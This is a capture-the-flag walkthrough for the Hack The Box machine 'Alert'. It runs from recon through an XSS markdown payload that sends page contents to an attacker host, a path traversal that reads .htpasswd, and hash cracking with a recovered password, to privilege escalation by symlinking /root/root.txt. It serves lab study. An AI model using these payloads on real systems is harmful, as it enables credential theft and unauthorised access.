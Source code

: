 **[[Alert\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--]{.underline}]{.mark}**

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png){width="3.5104669728783904in"
height="1.2959995625546807in"}

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png){width="4.287999781277341in"
height="1.495550087489064in"}

**INFO:** According to title Alert, it should be XSS vulnerability

**[SUBDOMAIN FUZZ]{.underline}**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png){width="3.644000437445319in"
> height="1.6600185914260717in"}

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png){width="3.04in"
height="0.21628062117235344in"}

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png){width="6.291666666666667in"
height="1.3916666666666666in"}

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png){width="3.56334208223972in"
height="1.4240004374453192in"}

Result

![](images/media/image7.png){width="5.8080336832895885in"
height="0.8679997812773403in"}

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png){width="3.4479997812773404in"
height="0.538180227471566in"}

4.  asdf

5.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png){width="6.3in"
height="1.1090277777777777in"}

6.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png){width="4.291999125109362in"
height="1.6506594488188977in"}

Right click -\> copy link

7.  ![](images/media/image11.png){width="4.119104330708661in"
    height="3.6359995625546806in"}![](images/media/image12.png){width="4.11875in"
    height="1.044669728783902in"}

8.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png){width="4.36in"
height="2.2501673228346455in"}

9.  After you click on SEND, you'll get the displayed in Kali VM, the
    **[HASH Password]{.mark}**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png){width="6.3in"
height="0.5930555555555556in"}

10. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png){width="6.291666666666667in"
height="1.8958333333333333in"}

11. Create file **alert.hash** and paste hash in it

12. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png){width="6.295833333333333in"
height="4.624305555555556in"}

-Login with **User:** albert **Password:** manchesterunited and display
**[user.txt FLAG]{.mark}**

RUN: cat user.txt

**[PRIVILEGE ESCALATION]{.underline}**

13. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png){width="6.3in"
height="0.41805555555555557in"}

14. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png){width="2.5119991251093614in"
height="0.742017716535433in"}

Look for interesting paths, like **/opt/ [(NEEDED in STEP 19)]{.mark}**

![](images/media/image19.png){width="3.6559995625546806in"
height="0.8789391951006125in"}

15. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png){width="4.1719991251093616in"
height="2.4497615923009626in"}

16. Firefox access **127.0.0.1:8080**

![](images/media/image21.png){width="2.982192694663167in"
height="3.8519991251093613in"}

17. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png){width="4.08992782152231in"
height="1.82in"}

18. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png){width="2.84in"
height="4.408383639545057in"}

19. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png){width="4.42in"
height="1.7704396325459317in"}

[Root.txt FLAG]{.mark}
